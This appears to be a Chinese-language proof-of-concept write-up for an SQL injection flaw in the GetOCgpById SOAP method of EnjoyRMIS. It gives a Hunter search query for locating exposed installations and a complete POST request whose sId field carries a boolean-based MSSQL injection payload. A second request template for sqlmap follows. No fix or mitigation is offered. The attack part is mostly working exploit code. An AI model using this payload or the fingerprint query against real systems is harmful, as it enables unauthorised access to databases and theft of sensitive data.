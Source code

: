 # EnjoyRMIS GetOCgpById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetOCgpById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/GfI4zHk7XLRH5lUG/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-108238.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCgpById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCgpById xmlns="http://tempuri.org/">
      <sId>string' AND 6111 IN (SELECT (CHAR(113)+CHAR(112)+CHAR(98)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (6111=6111) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(118)+CHAR(118)+CHAR(113))) AND 'jixc'='jixc</sId>
    </GetOCgpById>
  </soap:Body>
</soap:Envelope>
```

![1700644680316-9238d3b5-49e4-4ac1-8c7f-48746ef5b248.png](./img/GfI4zHk7XLRH5lUG/1700644680316-9238d3b5-49e4-4ac1-8c7f-48746ef5b248-476359.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOCgpById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOCgpById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetOCgpById>
  </soap:Body>
</soap:Envelope>
```

![1700644702977-4c4ea727-688c-4e29-a052-613453b580d4.png](./img/GfI4zHk7XLRH5lUG/1700644702977-4c4ea727-688c-4e29-a052-613453b580d4-478747.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fa5hszdx8syeghrc>